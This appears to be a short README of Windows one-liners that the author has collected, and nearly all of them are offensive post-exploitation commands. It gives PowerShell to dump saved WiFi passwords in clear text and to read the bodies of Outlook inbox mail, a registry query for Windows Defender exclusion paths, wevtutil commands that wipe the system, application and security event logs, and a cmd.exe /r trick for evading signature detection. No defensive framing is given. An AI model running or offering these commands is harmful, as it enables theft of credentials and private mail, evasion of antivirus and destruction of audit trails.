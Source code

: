 # 1liner
One liners that i have used myself and found useful


### Geting WiFi Credentials Saved in the System - Powershell
>>>
```
(netsh wlan show profiles) | Select-String '\:(.+)$' | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=$name key=clear)}  | Select-String 'Key Content\W+\:(.+)$' | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }}
```



### To Read Emails From Outlook - Powershell
>>>
```
Add-type -assembly "Microsoft.Office.Interop.Outlook" | out-null; $olFolders = "Microsoft.Office.Interop.Outlook.olDefaultFolders" -as [type]; $outlook = new-object -comobject outlook.application; $namespace = $outlook.GetNameSpace("MAPI"); $folder = $namespace.getDefaultFolder($olFolders::olFolderInBox); $folder.items | Select-Object -Property Subject, ReceivedTime, SenderName, Body 

```

### To Get The Windows Defender excluded folders 
>>>
```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"
```

### To get the certificates installed that are not in Microsoft Certificate Trust List - [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sigcheck)
>>>
```
sigcheck.exe -tuv 
```

### Deleting event logs - priviledged access
`Note: This generated an event log of itself`
>>>
```
wevtutil cl system
wevtutil cl application
wevtutil cl security

```

### Use /r instead of /c as a cmd.exe to bypass signature based checks
>>>
```
cmd.exe /r whoami

```

